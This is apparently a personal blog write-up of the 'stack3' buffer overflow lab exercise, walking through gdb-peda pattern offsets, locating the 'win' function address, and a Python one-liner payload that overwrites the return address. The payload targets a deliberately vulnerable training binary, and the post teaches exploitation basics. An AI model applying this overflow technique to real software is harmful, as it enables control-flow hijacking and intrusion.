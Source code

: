 ```yaml
---
layout: post
title:  "Buffer OverFlow-Stack3"
description: It's easy Buffer OverFlow all thing in jumping function.
tags: Buffer-OverFlow Stack
img: "/images/BoF/stack3/bof.jpg"
---
```


# Previous Post

If you haven’t read my previous [Post](/2019/08/18/Buffer-OverFlow-2.html) yet I recommend reading it before this. 

---

# Code Review

I will not review all the code because there is one thing only new of last post, So i think you should to go back and the see it :D 

![image](/images/BoF/stack3/sourceCode.png)

But the new thing here there is new function called 'win' you should to call it to print the "code flow successfully changed\n"  
What ever let's run it and see what will happen with us. 

![image](/images/BoF/stack3/1.png)

Nothing happened because our input in his buffer so let's give him `'A'*100`

![image](/images/BoF/stack3/3.png)

Now i should to create pattern, So my best way to create it is `gdb-peda`

![image](/images/BoF/stack3/4.png)

After that run the program and put this pattern as input  
Now debug time  
`gdb-peda$ x/xg $rsp`  
`gdb-peda$ pattern offset 0x63413163` Now we know the offset `64`, So know we need to know the addr of win function let's go back and use r2 or `objdump`or `gdb`  
what ever i will use `gdb` idk why but the important thing is the address  
So to get the functions address in the `gdb` you just need to type `info functions` and boom we got it `0x08048424` So now attack time  
Let's do our payload with `python python -c 'print "A" * 64 + "\x24\x84\x04\x08"'`  

![image](/images/BoF/stack3/done.png)

Damn thats so easy  
And we did it  

---

I hope u enjoyed with this writeup. You can follow me on the twitter [@Mrx_Exploit](https://twitter.com/MRX_Exploit)

Thanks for reading.
